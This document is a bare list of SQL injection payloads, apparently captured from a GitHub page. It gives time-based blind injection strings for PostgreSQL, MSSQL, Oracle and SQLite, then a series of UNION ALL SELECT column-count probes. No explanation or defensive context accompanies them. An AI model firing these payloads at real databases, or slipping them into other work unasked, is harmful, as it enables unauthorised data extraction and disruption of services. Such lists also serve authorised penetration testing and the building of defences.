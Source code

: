 PostgreSQL :
```
1' or pg_sleep(10)
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)-
```

MSQL :
```
1' waitfor delay '0:0:10'
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
```

Oracle :
```
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)
```

SQLite
```
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

# Union Select Payloads

```
UNION ALL SELECT 1
UNION ALL SELECT 1,2
UNION ALL SELECT 1,2,3
UNION ALL SELECT 1,2,3,4
UNION ALL SELECT 1,2,3,4,5
UNION ALL SELECT 1,2,3,4,5,6
UNION ALL SELECT 1,2,3,4,5,6,7
UNION ALL SELECT 1,2,3,4,5,6,7,8
UNION ALL SELECT 1,2,3,4,5,6,7,8,9
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10
UNION ALL SELECT 1#
UNION ALL SELECT 1,2#
UNION ALL SELECT 1,2,3#
UNION ALL SELECT 1,2,3,4#
UNION ALL SELECT 1,2,3,4,5#
UNION ALL SELECT 1,2,3,4,5,6#
UNION ALL SELECT 1,2,3,4,5,6,7#
UNION ALL SELECT 1,2,3,4,5,6,7,8#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9#
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10#
UNION ALL SELECT 1-- 
UNION ALL SELECT 1,2-- 
UNION ALL SELECT 1,2,3-- 
UNION ALL SELECT 1,2,3,4-- 
UNION ALL SELECT 1,2,3,4,5-- 
UNION ALL SELECT 1,2,3,4,5,6-- 
UNION ALL SELECT 1,2,3,4,5,6,7-- 
```